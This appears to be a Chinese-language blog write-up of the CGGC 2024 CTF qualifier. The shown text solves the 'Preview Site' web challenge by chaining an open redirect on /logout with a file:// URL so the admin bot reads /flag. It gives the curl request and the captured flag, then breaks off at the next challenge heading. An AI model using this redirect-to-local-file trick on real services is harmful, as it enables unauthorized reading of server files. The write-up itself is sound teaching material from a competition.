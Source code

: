 +++
Title = "CGGC 2024 Quals Writeup"
Date = "2024-11-04 00:00:00 +0800 CST"
Description = ""
Tags = ["CTF", "Writeup"]
Categories = ["CTF"]
menu = "main"
+++

這次和 \_Viεcon\_、Andy Lu 和 [Darrin Lin](https://darrin.cc/) 組隊參加國科會舉辦的 [2024 CGGC 網路守護者挑戰賽](https://cggc.nchc.org.tw/)。

![solves](solves.webp)
我花了四個多小時就把 Web 題解完，後面盯著 Autonomous Systems 相關的文件十幾個小時沒解開那題 Network Security。

## Preview Site 🔍

題目作者：[Vincent55](https://vincent55.tw/)\
解題組數：

{{<details "Source code"></details>}}

登入後可以提供一個 URI 給 Admin Bot 去 Fetch，但 URI 必須以 `http://previewsite/` 開頭，並且只會跟著 Redirect 一次。

在 `/logout` 有一個 `next` 參數，可以用來 Redirect 到任意網址，剛好 `requests` 看得懂 `file://` Protocol，這裡可以用來 Redirect 到 `file:///flag`。

```bash
curl 'http://10.99.66.5:10002/fetch' \
  -H 'Cookie: session=<Guest 的 Session>' \
  --data-raw 'url=http://previewsite/logout?next=file:///flag'

<h3>Result:</h3>
<pre><code>CGGC{open_redirect_to_your_local_file_2893hrgiubf3wq1}
</code></pre>
```

## proxy

題目作者：[Chumy](https://blog.chummydns.com/)\
解題組數：
